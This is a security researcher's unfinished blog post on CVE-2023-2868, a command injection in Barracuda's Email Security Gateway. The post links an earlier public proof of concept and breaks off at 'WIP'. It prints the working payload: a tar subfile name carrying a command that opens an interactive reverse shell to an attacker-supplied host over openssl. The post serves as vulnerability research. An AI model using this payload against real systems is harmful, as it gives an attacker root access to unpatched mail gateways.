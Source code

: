 ```yaml
---
layout: post
title: CVE-2023-2868 - Diving Deeper To Total Device Compromise
subtitle: WIP
tags: hax cve barracuda pwn
date: 2025-08-20
background: https://lh3.googleusercontent.com/d/1JdPaNUt37-WV675cbqsskjcuJp0akekw
---
```

# CVE-2023-2868
Some of my past research work involved crafting one of the first public proof of concepts for CVE-2023-2868, a command injection vulnerability in Barracuda's Email Security Gateway appliance. My writeup can be found on [AttackerKB](https://attackerkb.com/topics/2Z0CWopGPX/cve-2023-2868/rapid7-analysis), and my original ruby PoC code can be found [here](https://github.com/cfielding-r7/poc-cve-2023-2868).

## TL;DR - PER MY LAST WRITEUP ;P
[CVE-2023-2868](https://cloud.google.com/blog/topics/threat-intelligence/barracuda-esg-exploited-globally/) is a command injection vulnerability in Barracuda ESG's custom wrapper for `amavisd`. A `.tar` file in the following format would trigger RCE: 
```
randomLetters.tar < - name of the tar file
    - `setsid sh -c "mkfifo /tmp/p;sh -i </tmp/p 2>&1|openssl s_client -quiet -connect #{LHOST}:#{LPORT} >/tmp/p 2>/dev/null;rm /tmp/p"`
      ^ The filename of a subfile within the tar file; subfile contents are random.  
```
This is a reconstruction of the details hinted at in [Mandiant's Blog](https://cloud.google.com/blog/topics/threat-intelligence/barracuda-esg-exploited-globally/), and works exactly as is. 


## New Beginnings 
The vulnerability was patched in updates following the aforementioned blogs. However, for those who have an ESG appliance on their kitchen counter (lacking said security patches), CVE-2023-2868 can be used to get a root shell for further research. This post will explore that opportunity. 

WIP